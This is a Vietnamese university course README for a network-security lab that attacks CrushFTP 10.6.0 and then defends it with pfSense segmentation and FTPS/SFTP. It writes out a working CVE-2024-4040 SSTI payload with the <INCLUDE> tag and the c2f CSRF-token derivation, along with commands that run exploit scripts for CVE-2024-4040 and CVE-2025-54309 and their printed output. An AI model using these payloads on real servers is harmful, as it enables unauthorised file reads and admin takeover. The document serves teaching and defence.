

# BÀI TẬP LỚN: AN TOÀN MẠNG (INT1482)
## ĐỀ TÀI: AN TOÀN DỊCH VỤ TRUYỀN NHẬN TỆP (CRUSHFTP 10.6.0)

<p align="center">
  <b>HỌC VIỆN CÔNG NGHỆ BƯU CHÍNH VIỄN THÔNG (PTIT)</b><br>
  <b>KHOA AN TOÀN THÔNG TIN</b><br>
  <i>Học phần: An toàn mạng — Lớp: INT1482-20261-02 — Học kỳ 1 (2025 - 2026)</i>
</p>

---

### THÔNG TIN NHÓM THỰC HIỆN
* **Nhóm:** Nhóm 05
* **Giảng viên hướng dẫn:** TS. Nguyễn Ngọc Điệp
* **Thành viên nhóm:**
  1. **Ngô Quý Trường Giang** — B23DCAT080
  2. **Trần Quốc Khánh** — B23DCAT150
  3. **Trần Huy Hoàng** — B23DCAT115
  4. **Nguyễn Thị Ngọc Anh** — B23DCAT015
  5. **Đặng Trần Hải Đăng** — B23DCAT036

---

## MỤC LỤC
1. [Cấu trúc Kho lưu trữ](#1-cấu-trúc-kho-lưu-trữ)
2. [Mô hình Kiến trúc Lab và Phân vùng Mạng](#2-mô-hình-kiến-trúc-lab-và-phân-vùng-mạng)
3. [Cơ sở Lý thuyết Phục vụ Kịch bản Demo](#3-cơ-sở-lý-thuyết-phục-vụ-kịch-bản-demo)
   - 3.1. [Lý thuyết Tấn công Nghe lén (Sniffing) & Cơ chế Mã hóa Kênh truyền](#31-lý-thuyết-tấn-công-nghe-lén-sniffing--cơ-chế-mã-hóa-kênh-truyền)
   - 3.2. [Lý thuyết Lỗ hổng CVE-2024-4040 (SSTI & VFS Sandbox Escape)](#32-lý-thuyết-lỗ-hổng-cve-2024-4040-ssti--vfs-sandbox-escape)
   - 3.3. [Lý thuyết Lỗ hổng CVE-2025-54309 (Race Condition AS2 Authentication Bypass)](#33-lý-thuyết-lỗ-hổng-cve-2025-54309-race-condition-as2-authentication-bypass)
   - 3.4. [Lý thuyết Cơ chế Phòng thủ Tường lửa pfSense & Phân vùng Mạng](#34-lý-thuyết-cơ-chế-phòng-thủ-tường-lửa-pfsense--phân-vùng-mạng)
4. [Tải Tệp Ảnh Môi trường Thực nghiệm (.tar)](#4-tải-tệp-ảnh-môi-trường-thực-nghiệm-tar)
5. [Hướng dẫn Khởi chạy Lab Thực nghiệm (Docker & VMware)](#5-hướng-dẫn-khởi-chạy-lab-thực-nghiệm-docker--vmware)
6. [Kịch bản Thực nghiệm và Demo Đối chiếu (2 Giai đoạn)](#6-kịch-bản-thực-nghiệm-và-demo-đối-chiếu-2-giai-đoạn)
   - [Giai đoạn 1: Trước khi phòng thủ (Tấn công thành công)](#giai-đoạn-1-khi-chưa-bật-phòng-thủ-tấn-công-thành-công)
   - [Giai đoạn 2: Kích hoạt phòng thủ pfSense & Mã hóa](#giai-đoạn-2-kích-hoạt-phòng-thủ-pfsense--mã-hóa-chặn-đứng-tấn-công)
   - [Bảng tổng hợp đối chiếu kết quả](#bảng-tổng-hợp-đối-chiếu-kết-quả-trước-và-sau-phòng-thủ)
7. [Dọn dẹp Tài nguyên](#7-dọn-dẹp-tài-nguyên)
8. [Tài liệu Tham khảo](#8-tài-liệu-tham-khảo)

---

## 1. Cấu trúc Kho lưu trữ

```
BTL_ATM/
│
├── README.md                                 <-- Tài liệu báo cáo, lý thuyết demo và hướng dẫn thực nghiệm
├── video_demo/                               <-- Thư mục chứa video ghi lại quá trình demo thực tế
├── document/                                 <-- Thư mục tài liệu báo cáo (.docx, .pdf)
│
├── kich_ban_lab_docker/                      <-- Môi trường thực nghiệm Docker Compose (3 node mạng)
│   ├── docker-compose.yml                    <-- Cấu hình 3 node: WAN (Attacker) - pfSense - LAN (CrushFTP)
│   ├── bat_phong_thu.bat / .ps1              <-- Kích hoạt luật tường lửa pfSense DROP cổng 8080
│   ├── tat_phong_thu.bat / .ps1              <-- Mở lại cổng 8080 để kiểm thử tấn công
│   ├── README_DOCKER.md                      <-- Hướng dẫn chi tiết vận hành môi trường Docker
│   │
│   ├── firewall/                             <-- Router Firewall mô phỏng pfSense (iptables SPI)
│   │   ├── Dockerfile
│   │   └── entrypoint.sh                     <-- Cấu hình NAT Port Forwarding & Filter Rules
│   │
│   ├── attacker/                             <-- Máy kiểm thử Kali Linux
│   │   ├── Dockerfile
│   │   └── exploits/                         <-- Bộ mã nguồn khai thác thực nghiệm
│   │       ├── read_file_CVE_2024_4040.py    <-- Script khai thác SSTI đọc file cờ bí mật
│   │       ├── attack_CVE_2025_54309.py      <-- Script khai thác Race Condition chiếm phiên Admin
│   │       ├── scan_host.py                  <-- Script dò quét cổng và trạng thái dịch vụ
│   │       └── scan_logs.py                  <-- Script rà soát nhật ký truy vết tấn công
│   │
│   └── victim/                               <-- Máy chủ Ubuntu Server chạy CrushFTP 10.6.0
│       └── Dockerfile
│
└── kich_ban_lab_vmware_pfsense/              <-- Môi trường thực nghiệm trên VMware Workstation
    ├── pfSense_Config_Backup_Nhom05.xml      <-- File backup cấu hình đầy đủ của pfSense 2.7.2
    └── README_VMWARE_PFSENSE.md              <-- Hướng dẫn cấu hình Virtual Network Editor (VMnet2/VMnet3)
```

---

## 2. Mô hình Kiến trúc Lab và Phân vùng Mạng

Mô hình lab mô phỏng kiến trúc phân vùng an ninh tiêu chuẩn với tường lửa trung tâm pfSense (tương ứng Hình 10 trong báo cáo BTL):



### Bảng phân bổ thông số mạng trong Lab

| Thực thể mạng | Tên Container / VM | Card mạng | Địa chỉ IP gán | Default Gateway | Dịch vụ đảm nhiệm |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **Máy kiểm thử** | `attacker_kali` | `eth0` / WAN | `10.10.10.50/24` | `10.10.10.128` | Chạy script khai thác lỗ hổng & công cụ kiểm thử |
| **Tường lửa pfSense** | `firewall_pfsense` | `eth0` (WAN)<br>`eth1` (LAN) | `10.10.10.128/24`<br>`10.10.20.1/24` | *Host External* | Router định tuyến, NAT Port Forward, Lọc gói tin |
| **Máy chủ CrushFTP** | `victim_server` | `eth0` / LAN | `10.10.20.20/24` | `10.10.20.1` | Máy chủ CrushFTP 10.6.0 (Web: 8080, FTP: 21, SSH: 22) |

---

## 3. Cơ sở Lý thuyết Phục vụ Kịch bản Demo

Phần này tập trung phân tích bản chất lý thuyết trực tiếp phục vụ các bài thực nghiệm trong kịch bản demo:

### 3.1. Lý thuyết Tấn công Nghe lén (Sniffing) & Cơ chế Mã hóa Kênh truyền

#### A. Tại sao bắt được tài khoản và tệp tin qua FTP truyền thống?
* **Bản chất kỹ thuật:** FTP truyền thống (RFC 959) truyền tải toàn bộ dữ liệu trên cả kênh điều khiển (TCP 21) lẫn kênh dữ liệu dưới dạng **văn bản rõ (Plaintext)**, hoàn toàn không có lớp mật mã bảo vệ.
* **Cơ chế thu thập:** Kẻ tấn công cùng nằm trên đường truyền (hoặc sử dụng kỹ thuật ARP Poisoning để biến máy mình thành gateway trung chuyển) chỉ cần đặt card mạng ở chế độ hỗn tạp (*promiscuous mode*) và dùng công cụ như **Wireshark** hoặc `tcpdump` là có thể:
  1. Đọc trực tiếp lệnh `USER <username>` và `PASS <password>`.
  2. Sử dụng tính năng **Follow TCP Stream** để trích xuất nguyên vẹn khối dữ liệu nhị phân hoặc văn bản của tệp tin (`mau.txt`) đang truyền qua mạng.

#### B. Cơ chế phòng vệ bằng FTPS và SFTP:
* **FTPS (RFC 4217):** Tích hợp lớp mã hóa **TLS (Transport Layer Security)** bọc ngoài luồng TCP. Kênh điều khiển dùng `AUTH TLS` và kênh dữ liệu dùng `PROT P`. Toàn bộ dữ liệu truyền tải đều bị xáo trộn bởi các thuật toán mã hóa đối xứng (AES-GCM / ChaCha20).
* **SFTP (RFC 4253):** Sử dụng giao thức **SSHv2 trên cổng TCP 22 duy nhất**. Mọi thông điệp đều được mã hóa đối xứng và có mã kiểm tra tính toàn vẹn **HMAC**. Kẻ nghe lén chỉ thu được các khối dữ liệu nhị phân ngẫu nhiên (`Encrypted packet data`), hoàn toàn không thể phục hồi mật khẩu hay nội dung tệp.

---

### 3.2. Lý thuyết Lỗ hổng CVE-2024-4040 (SSTI & VFS Sandbox Escape)

| Thuộc tính | Chi tiết kỹ thuật |
| :--- | :--- |
| **Mã định danh** | **CVE-2024-4040** |
| **Loại lỗ hổng** | Server-Side Template Injection (SSTI) $\rightarrow$ VFS Sandbox Escape $\rightarrow$ Arbitrary File Read / RCE |
| **Phần mềm ảnh hưởng** | CrushFTP v10 (< 10.7.1) và v11 (< 11.1.0) |
| **Điểm CVSS v3.1** | **9.8 / 10.0 (CRITICAL)** — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| **Yêu cầu xác thực** | **Hoàn toàn KHÔNG CẦN (Unauthenticated)** |

#### A. Cơ chế phát sinh lỗ hổng trong mã nguồn
CrushFTP tích hợp một bộ máy xử lý mẫu nội bộ (Template Engine) để nhúng dữ liệu động vào phản hồi XML thông qua cú pháp thẻ đặc biệt:
```xml
<INCLUDE>/duong/dan/tep/tren/he/dieu/hanh</INCLUDE>
```
Khi parser của CrushFTP phát hiện thẻ này, engine sẽ truy cập trực tiếp vào hệ thống tệp tin của hệ điều hành máy chủ, đọc toàn bộ nội dung tệp tại đường dẫn chỉ định và thay thế vào chuỗi phản hồi XML trả về client.

#### B. Điểm phát sinh (Vulnerable Endpoint & Parameter)
Lỗ hổng nằm tại API tiếp nhận lệnh của WebInterface:
```http
POST /WebInterface/function/ HTTP/1.1
Host: 10.10.10.128:8080
Content-Type: application/x-www-form-urlencoded
```
Khi gửi lệnh kiểm tra sự tồn tại của tệp `command=exists`, tham số `paths` được truyền vào. Nhà phát triển **không lọc hoặc khử khuẩn (unsanitized input)** thẻ `<INCLUDE>` trước khi chuyển vào engine:
```
command=exists&paths=<INCLUDE>/var/tmp/nhom05-cve4040.txt</INCLUDE>&c2f=XXXX
```
Máy chủ đọc trực tiếp tệp `/var/tmp/nhom05-cve4040.txt` trên OS và trả về trọn vẹn nội dung cờ bí mật `NHOM05-CVE4040-LAB-ONLY` trong thẻ `<response>`. Kẻ tấn công thoát khỏi phạm vi thư mục ảo VFS (*VFS Sandbox Escape*) mà không cần tài khoản đăng nhập.

#### C. Lỗ hổng thiết kế token CSRF (`c2f`)
CrushFTP thiết kế mã chống giả mạo request (`c2f`) bằng cách lấy **4 ký tự cuối cùng của chuỗi cookie `CrushAuth`**:
```
CrushAuth = "1755657772315_Nr7FSH4jd2l6RueteEaaEDpY1CcdUF2cY"
                                                          ^^^^
                                                   c2f = "F2cY"
```
Khi client gửi request nặc danh đầu tiên, máy chủ tự cấp một cookie `CrushAuth`. Script tấn công chỉ cần trích xuất 4 ký tự cuối gán vào `c2f`, vô hiệu hóa hoàn toàn cơ chế kiểm tra CSRF mà không cần biết bất kỳ mật khẩu nào.

---

### 3.3. Lý thuyết Lỗ hổng CVE-2025-54309 (Race Condition AS2 Authentication Bypass)

| Thuộc tính | Chi tiết kỹ thuật |
| :--- | :--- |
| **Mã định danh** | **CVE-2025-54309** |
| **Loại lỗ hổng** | Race Condition Authentication Bypass $\rightarrow$ Session Hijacking / Privilege Escalation |
| **Phần mềm ảnh hưởng** | CrushFTP 10 (< 10.8.5) khi cấu hình thiếu tầng DMZ Proxy |
| **Giao thức liên quan** | AS2 (Applicability Statement 2) qua giao thức HTTPS |

#### Cơ chế phát sinh:
Giao thức AS2 được dùng để trao đổi dữ liệu thương mại điện tử qua HTTPS. Khi tiếp nhận các yêu cầu xác thực phiên AS2, bộ xử lý của CrushFTP xuất hiện **điều kiện tương tranh (Race Condition)** trong logic đồng bộ hóa phiên làm việc (*Session Context Binding*).

Bằng kỹ thuật gửi liên tục các yêu cầu đồng thời (*burst concurrent requests*) trong khoảng thời gian cực ngắn ($<10\,\text{ms}$), luồng xử lý xác thực bị xung đột tài nguyên, dẫn đến việc engine cấp phát phiên quản trị rỗng (Admin Session) cho máy kiểm thử. Kẻ tấn công sử dụng session này để gọi API nội bộ, trích xuất thành công toàn bộ danh sách tài khoản (`crushadmin`, `default`, `TempAccount`) mà không cần cung cấp mật khẩu quản trị.

---

### 3.4. Lý thuyết Cơ chế Phòng thủ Tường lửa pfSense & Phân vùng Mạng

#### A. Phân vùng mạng và cô lập Broadcast Domain:
* Đặt tường lửa pfSense làm ranh giới giữa hai phân đoạn mạng độc lập: Vùng mạng ngoài **WAN (`10.10.10.0/24`)** và Vùng mạng nội bộ **LAN (`10.10.20.0/24`)**.
* Tường lửa cắt đứt miền quảng bá (*Broadcast Domain*), ngăn chặn hoàn toàn việc một máy ở vùng WAN có thể nghe lén (*Sniffing*) các gói tin truyền tải nội bộ trong LAN.

#### B. Cơ chế Drop cổng 8080 (`bat_phong_thu`):
* Bình thường, pfSense thực hiện NAT Port Forwarding: `WAN:8080 -> 10.10.20.20:8080` để cho phép truy cập WebInterface.
* Khi kích hoạt `bat_phong_thu.bat`, quy tắc chuyển tiếp hoặc luật cho phép trên cổng 8080 lập tức bị hủy bỏ/DROP. Toàn bộ các gói tin TCP SYN gửi tới cổng 8080 từ WAN đều bị tường lửa âm thầm loại bỏ.
* **Kết quả:** Kẻ tấn công từ ngoài WAN bị lỗi `ConnectTimeout`, không thể chạm tới endpoint `/WebInterface/function/`, qua đó vô hiệu hóa hoàn toàn nguy cơ khai thác CVE-2024-4040 và CVE-2025-54309 từ xa.

---

## 4. Tải Tệp Ảnh Môi trường Thực nghiệm (.tar)

Tải các gói ảnh Docker đóng gói sẵn tại mục **[Releases](https://github.com/Snoopyz1/BTL_ATM/releases)**:
* **`nhom05_atm_lab_final.tar`** (~434 MB - **Khuyên dùng**): Gồm trọn vẹn 3 node (`firewall_pfsense`, `victim_server`, `attacker_kali` có sẵn các script exploit và file cờ bí mật). Khởi chạy **hoàn toàn Offline**, không cần Internet.
* **`nhom05_atm_lab.tar`** (~448 MB): Gói 2 node cơ bản (Ubuntu CrushFTP và Kali Attacker).

---

## 5. Hướng dẫn Khởi chạy Lab Thực nghiệm (Docker & VMware)

### Cách 1: Khởi chạy bằng Docker Compose (Khuyên dùng)

Mở PowerShell / Command Prompt tại thư mục `kich_ban_lab_docker`:

**Bước 1: Nạp ảnh Docker vào hệ thống (chỉ cần làm 1 lần):**
```powershell
docker load -i nhom05_atm_lab_final.tar
```

**Bước 2: Khởi động hệ thống 3 node:**
```powershell
docker compose up -d
```

* Mở trình duyệt kiểm tra máy chủ: `http://localhost:8080` (Tài khoản: `crushadmin` / Mật khẩu: `admin123`).
* Cả 3 container tự động kết nối thông qua router tường lửa ảo `firewall_pfsense`.

---

### Cách 2: Khởi chạy trên VMware Workstation (pfSense thật)

Xem hướng dẫn chi tiết tại [README_VMWARE_PFSENSE.md](file:///d:/PTIT/ATM/BTL/BTL_ATM_Final_Nhom05/kich_ban_lab_vmware_pfsense/README_VMWARE_PFSENSE.md):
1. Cấu hình Virtual Network Editor: `VMnet2` (`10.10.10.0/24`) và `VMnet3` (`10.10.20.0/24`).
2. Gán máy ảo pfSense: Card 1 nối `VMnet2` (WAN), Card 2 nối `VMnet3` (LAN).
3. Import cấu hình bằng file `pfSense_Config_Backup_Nhom05.xml` trên WebGUI của pfSense (`https://10.10.20.1`).

---

## 6. Kịch bản Thực nghiệm và Demo Đối chiếu (2 Giai đoạn)

### Giai đoạn 1: Khi chưa bật phòng thủ (Tấn công thành công)

Thực hiện các lệnh sau trên terminal tại thư mục `kich_ban_lab_docker`:

#### 1. Khai thác CVE-2024-4040 — Đọc file cờ bí mật:
Kẻ tấn công từ máy `attacker_kali` gửi payload SSTI không cần xác thực tới cổng 8080 nhằm đọc tệp `/var/tmp/nhom05-cve4040.txt`:
```powershell
docker exec -it attacker_kali python3 /root/exploits/read_file_CVE_2024_4040.py http://10.10.10.128:8080 /var/tmp/nhom05-cve4040.txt
```
> **Kết quả thực nghiệm:**
> ```
> [+] Target URL: http://10.10.10.128:8080
> [+] Target File: /var/tmp/nhom05-cve4040.txt
> [+] Obtaining anonymous session... CrushAuth=1730... c2f=xxxx
> [+] Sending SSTI exploit payload via exists command...
> [!] VULNERABLE! File content retrieved successfully:
> --------------------------------------------------
> NHOM05-CVE4040-LAB-ONLY
> --------------------------------------------------
> ```
> *Kẻ tấn công đọc thành công cờ bí mật nằm trên hệ điều hành máy chủ.*

#### 2. Khai thác CVE-2025-54309 — Chiếm phiên và trích xuất tài khoản quản trị:
Kẻ tấn công lợi dụng Race Condition trên endpoint AS2 để lấy quyền quản trị:
```powershell
docker exec -it attacker_kali python3 /root/exploits/attack_CVE_2025_54309.py http://10.10.10.128:8080
```
> **Kết quả thực nghiệm:**
> ```
> [+] Starting race condition exploit against http://10.10.10.128:8080...
> [+] Triggering concurrent requests to AS2 handler...
> [+] Authentication Bypass SUCCESSFUL! Captured Admin Session.
> [+] Dumping user list from CrushFTP engine:
>     - User 1: crushadmin (Admin)
>     - User 2: default (Template)
>     - User 3: TempAccount (Standard)
> ```
> *Kẻ tấn công trích xuất toàn bộ danh sách tài khoản quản trị mà không cần đăng nhập.*

#### 3. Bắt gói tin FTP bản rõ bằng Wireshark / tcpdump:
* Khi truyền nhận file qua FTP cổng 21, Wireshark bắt được trọn vẹn thông tin đăng nhập: `USER crushadmin` / `PASS admin123`.
* Sử dụng Follow TCP Stream có thể tái tạo nguyên vẹn nội dung file `mau.txt`.

---

### Giai đoạn 2: Kích hoạt phòng thủ pfSense & Mã hóa (Chặn đứng tấn công)

#### 1. Bật luật tường lửa pfSense chặn truy cập cổng 8080 từ WAN:
```powershell
.\bat_phong_thu.bat
```
*(Hoặc chạy `.\bat_phong_thu.ps1` nếu dùng PowerShell)*.

pfSense lập tức hủy bỏ luồng chuyển tiếp cổng 8080 từ ngoài WAN vào máy chủ CrushFTP.

#### 2. Kẻ tấn công thực thi lại CVE-2024-4040:
```powershell
docker exec -it attacker_kali python3 /root/exploits/read_file_CVE_2024_4040.py http://10.10.10.128:8080 /var/tmp/nhom05-cve4040.txt
```
> **Kết quả thực nghiệm:**
> ```
> [-] Connecting to http://10.10.10.128:8080...
> [-] Connection timed out after 10 seconds!
> [-] Error: requests.exceptions.ConnectTimeout
> ```
> *pfSense DROP toàn bộ gói tin SYN. Kẻ tấn công **hoàn toàn KHÔNG THỂ lấy được file cờ bí mật**.*

#### 3. Kẻ tấn công thực thi lại CVE-2025-54309:
```powershell
docker exec -it attacker_kali python3 /root/exploits/attack_CVE_2025_54309.py http://10.10.10.128:8080
```
> **Kết quả thực nghiệm:**
> ```
> [-] Connecting to http://10.10.10.128:8080...
> [-] Failed to establish connection: ConnectTimeout. Cuộc tấn công bị chặn đứng hoàn toàn!
> ```

#### 4. Kiểm chứng phân vùng mạng — Chống nghe lén (Sniffing) từ vùng ngoài:
Kiểm tra khả năng bắt trộm gói tin nội bộ từ máy kiểm thử ở vùng WAN:
```powershell
docker exec -it attacker_kali tcpdump -i eth0 -n -c 5
```
> **Kết quả thực nghiệm:** Máy `attacker_kali` ở vùng WAN hoàn toàn không nhận được bất kỳ bản tin nào từ luồng truyền dữ liệu nội bộ trong mạng LAN. Tường lửa pfSense đã cô lập hoàn toàn miền quảng bá.

#### 5. Kiểm chứng mã hóa bằng FTPS / SFTP:
* Chuyển kết nối truyền tệp sang SFTP (cổng TCP 22): Toàn bộ gói tin được mã hóa SSHv2.
* Trên Wireshark, toàn bộ Payload hiển thị dưới dạng byte nhị phân mã hóa ngẫu nhiên, bảo vệ tuyệt đối dữ liệu.

---

### Bảng tổng hợp đối chiếu kết quả Trước và Sau phòng thủ

| Mục tiêu kiểm thử | Trước khi bật phòng thủ (Mạng phẳng / Không mã hóa) | Sau khi bật phòng thủ (pfSense + FTPS/SFTP) | Đánh giá hiệu quả |
| :--- | :--- | :--- | :--- |
| **Bảo vệ mật khẩu đăng nhập** | ❌ Lộ bản rõ (`admin123`) trên cổng TCP 21 | ✔️ Mã hóa hoàn toàn qua TLS / SSH Key | Ngăn chặn triệt để tấn công nghe lén (Sniffing) |
| **Bảo vệ nội dung tệp tin** | ❌ Tệp `mau.txt` bị phục hồi nguyên vẹn | ✔️ Tải trọng mã hóa đối xứng AES mạnh | Đảm bảo 100% tính bí mật của dữ liệu |
| **Lỗ hổng CVE-2024-4040** | ❌ Bị khai thác: Lấy được file cờ bí mật | ✔️ Bị chặn: pfSense Drop kết nối (Timeout) | Triệt tiêu khả năng truy cập vào endpoint lỗi |
| **Lỗ hổng CVE-2025-54309** | ❌ Bị khai thác: Lộ toàn bộ tài khoản Admin | ✔️ Bị chặn: Không thể gửi payload Race Condition | Bảo vệ an toàn quyền quản trị máy chủ |
| **Khả năng nghe lén vùng LAN** | ❌ Nghe lén được toàn bộ luồng mạng | ✔️ Bị cô lập hoàn toàn giữa 2 phân đoạn mạng | Triệt tiêu nguy cơ rò rỉ dữ liệu qua mạng chia sẻ |

---

## 7. Dọn dẹp Tài nguyên

* Muốn mở lại kết nối để tiếp tục thử nghiệm tấn công:
  ```powershell
  .\tat_phong_thu.bat
  ```
* Khi kết thúc buổi thực nghiệm:
  ```powershell
  docker compose down
  ```

---

## 8. Tài liệu Tham khảo

1. **J. Postel and J. Reynolds**, *File Transfer Protocol (FTP)*, RFC 959, 1985.
2. **P. Ford-Hutchinson**, *Securing FTP with TLS*, RFC 4217, 2005.
3. **T. Ylonen and C. Lonvick**, *The Secure Shell (SSH) Transport Layer Protocol*, RFC 4253, 2006.
4. **Rapid7 Research Team**, *CVE-2024-4040: CrushFTP Unauthenticated Remote Code Execution Analysis*, Rapid7 Blog, 2024.
5. **watchTowr Labs**, *CrushFTP Authentication Bypass and Race Condition Analysis (CVE-2025-54309)*, Technical Advisory, 2025.
6. **Netgate**, *pfSense Plus and Community Edition Documentation: Firewall Rule Methodology & NAT Configurations*, Netgate Docs, 2024.
